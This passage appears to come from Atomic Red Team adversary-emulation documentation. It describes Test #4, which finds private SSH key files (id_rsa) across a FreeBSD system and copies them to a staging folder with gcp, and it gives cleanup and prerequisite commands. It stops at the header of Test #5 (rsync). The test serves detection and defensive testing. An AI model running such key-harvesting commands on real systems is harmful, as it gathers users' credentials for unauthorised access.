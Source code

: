 ## Atomic Test #4 - Copy Private SSH Keys with CP (freebsd)
Copy private SSH keys on a FreeBSD system to a staging folder using the `cp` command.

**Supported Platforms:** Linux


**auto_generated_guid:** 12e4a260-a7fd-4ed8-bf18-1a28c1395775





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | /|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir -p #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec gcp --parents {} #{output_folder} \;
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```



#### Dependencies:  Run with `sh`!
##### Description: Install GNU cp from coreutils package.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v gcp)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y coreutils)
```




<br/>
<br/>

## Atomic Test #5 - Copy Private SSH Keys with rsync
Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux

